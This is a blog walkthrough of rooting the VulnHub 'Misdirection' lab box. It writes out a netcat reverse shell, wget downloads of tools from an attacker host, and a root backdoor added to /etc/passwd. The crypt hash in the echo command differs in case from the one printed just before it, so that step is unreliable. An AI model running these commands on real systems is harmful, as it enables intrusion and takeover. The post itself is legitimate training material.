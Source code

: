 ```yaml
---
layout: post
title: "Misdirection - VulnHub"
date: 2020-07-30
ctf: true
excerpt: "Walkthrough for Misdirection on Vulnhub"
tags: [Misdirection, VulnHub, privilege escalation, website enumeration]
comments: false
---
```

Misdirection is labelled as a medium difficulty OSCP style box from [VulnHub]( https://www.vulnhub.com). Below are the steps I took to root this box.

First, I ran **threader3000** to see what ports were open.

![Misdirection threader3000](/assets/img/Misdirection1.png)

Next, let's run **nmap -A p- 22,80,3306,8080 [machine ip]** to further enumerate these ports.

![Misdirection nmap](/assets/img/Misdirection2.png)

It appears that we have both Apache and a Python HTTP server running, along with MySQL and SSH. Let's visit both webpages over ports 80 and 8080 and see what's going on. Over port 80, we have the following:

![Misdirection port 80 website](/assets/img/Misdirection3.png)

Over port 8080, we have a default Apache page:

![Misdirection port 8080 website](/assets/img/Misdirection4.png)

Let's take a deeper look at the one on port 80. There is a **Sign Up** link under **Log In**. Let's create an account.

![Misdirection Sign Up](/assets/img/Misdirection5.png)

Unfortunately, we receive an error when attempting to register both with and without the **Is Manager** box checked.

![Misdirection email error](/assets/img/Misdirection6.png)

A cursory glance around the rest of the site results in not finding anything that stands out. Let's run **gobuster dir -u http://[machine ip]/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .txt,.php** to enumerate the website over port 80.

![Misdirection gobuster port 80](/assets/img/Misdirection7.png)

We are not able to login to the admin page as it will not load unless over https, and welcome/examples just look like they provide samples for web2py. Let's enumerate the port 8080 website next with **gobuster dir -u http://[machine ip]:8080/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .txt,.php**.

![](/assets/img/Misdirection8.png)

After looking around, there are several subfolders available, but **/debug** provides you with web console access.

![Misdirection /debug](/assets/img/Misdirection9.png)

Running **whoami** states you are currently running as **www-data** and **sudo -l** states you can run bash as the user **brexit**

![Misdirection sudo -l](/assets/img/Misdirection10.png)

It also appears that netcat is installed. Let's open a shell on our attacker machine with **nc -nvlp 4444**

![Misdirection nc listener](/assets/img/Misdirection11.png)

Back on the p0wny@shell site, the netcat that is on the victim server does not allow for -e. Let's serve up an http server in another terminal window on our attacker machine with **python3 -m http.server**.

![Misdirection python3 http.server](/assets/img/Misdirection13.png)

On the victim machine, navigate to **cd /tmp** and run **wget http://[attacker ip]:8000/nc**. Once downloaded, run **chmod +x nc** to make this version of netcat executable. Now, run ./**nc [attacker ip] 4444 -e /bin/bash** to open a reverse shell on your attacker pc.

![Misdirection copy over nc and open reverse shell](/assets/img/Misdirection14.png)

Next, run **python -c 'import pty; pty.spawn("/bin/bash")'** to upgrade your shell.

![Misdirection upgrade shell](/assets/img/Misdirection15.png)

Now, let's run **sudo -u brexit /bin/bash**. You should now have a shell as the **brexit** user.

![Misdirection brexit user shell](/assets/img/Misdirection16.png)

Now, run **cd ~** and **ls**. The user flag is in this folder. Run **cat user.txt** to get the user flag.

![Misdirection user.txt](/assets/img/Misdirection17.png)

Now, let's copy over linpeas and pspy with **wget http://[attacker ip]:8000/linpeas.sh** and **wget http://[attacker ip]:8000/pspy64**. Next, run **chmod +x pspy64** and **chmod +x linpeas.sh**.

![Misdirection wget](/assets/img/Misdirection18.png)

Next, run **./linpeas.sh** to enumerate the server. It appears that the brexit user can write to the **/etc/passwd** file.

![Misdirection linpeas](/assets/img/Misdirection19.png)

Let's run **perl -le 'print crypt("test","aa")** to get the encrypted form of the password test we need. This should give you **aaqPiZY5xR5l.** Next, run **echo notroot:aaqPiZy5xR5l.:0:0:notroot:/root:/bin/bash >> /etc/passwd** This will add a root user named notroot with the password test. Next, run **su notroot** and enter test for the password when prompted to escalate to root.

![Misdirection root privesc](/assets/img/Misdirection20.png)

Now, just run **cd /root**, followed by **ls** and then finally **cat root.txt** to get the final flag.

![Misdirection root.txt](/assets/img/Misdirection21.png)
